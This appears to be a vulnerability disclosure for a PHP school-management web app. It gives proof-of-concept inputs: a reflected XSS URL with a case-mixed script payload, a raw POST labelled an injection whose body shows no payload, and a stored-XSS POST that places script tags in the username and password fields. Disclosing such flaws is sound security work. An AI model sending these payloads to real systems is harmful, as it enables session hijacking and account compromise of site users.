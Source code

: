 Backend login is at http://sekolah.local/Admin/akun.php, click Edit to http://sekolah.local/Admin/akun_edit.php?kode= where reflective xss exists
poc : http://sekolah.local/Admin/akun_edit.php?kode=%22%3E%3CScRiPt%3Ealert(1)%3C/sCrIpT%3E

![image](https://github.com/user-attachments/assets/afb44053-de08-4087-af39-ce8cfef862d2)



A foreground injection vulnerability exists at http://sekolah.local/mail.php
Inject the package and validate as follows
```
POST /Proses_Kirim.php HTTP/1.1
Host: sekolah.local
Content-Length: 70
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://sekolah.local
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://sekolah.local/mail.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=etu9r25cqa90upigbhquadf317
Connection: close

Name=111&Email=112%40sadsa.com&number=111&subject=321321&Message=23123
```
![image](https://github.com/user-attachments/assets/9145948d-6783-43a1-96fd-99dfcccc90fc)



Backend storage of xss requires logging into the backend to access http://sekolah.local/Admin/akun_edit.php?kode=hendika
Packages are issued as follows
```
POST /Admin/Proses_Edit_Akun.php HTTP/1.1
Host: sekolah.local
Content-Length: 144
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://sekolah.local
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://sekolah.local/Admin/akun_edit.php?kode=hendika
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=etu9r25cqa90upigbhquadf317
Connection: close

Username_Lama=hendika&Username_Baru=%22%3E%3CScRiPt%3Ealert%281%29%3C%2FsCrIpT%3E&Password=%22%3E%3CScRiPt%3Ealert%281%29%3C%2FsCrIpT%3E&Level=2
```
![image](https://github.com/user-attachments/assets/f821b040-5317-462f-8942-a5dbb6bd6d5d)
Visiting http://sekolah.local/Admin/akun.php triggers the xss screenshot below
![image](https://github.com/user-attachments/assets/d8e7fd54-06ca-4ff7-a430-0539cde7eeea)


